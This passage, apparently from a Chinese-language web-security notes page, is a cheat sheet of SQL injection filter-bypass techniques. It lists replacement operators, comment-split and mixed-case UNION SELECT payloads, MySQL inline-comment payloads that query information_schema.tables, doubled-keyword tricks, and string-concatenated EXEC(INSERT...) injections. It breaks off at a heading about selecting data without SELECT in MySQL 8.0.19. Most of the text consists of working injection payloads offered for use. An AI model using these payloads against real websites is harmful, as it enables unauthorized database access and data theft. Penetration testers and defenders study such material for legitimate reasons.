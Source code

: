 ### 使用like 、rlike 、regexp 或者 使用< 或者 >

## 过滤`or` `and` `xor` `not`

### 使用符号代替

```sql
and=`&&`  or=`||`   xor=`|`   not=`!`
```

## 过滤`union`，`select`，`where`等

### 使用**注释符**绕过

常用注释符：

`//`、`--`、`/**/`、`#`、`--+`、`---`、`;`、`%00`、`--a`

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

### 使用**大小写**绕过

```sql
id=-1'UnIoN/**/SeLeCT
```

### 使用**内联注释**绕过

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

### 使用**双关键字**绕过（若删除掉第一个匹配的union就能绕过）

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

### 使用**加号+拆解字符串**

```sql
or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )
```

### 使用语法新特性绕过屏蔽select

在MySQL 8.0.19版本后，MySQL推出了一些新特性，使我们可以不使用select就能够取数据

#### TABLE 语句
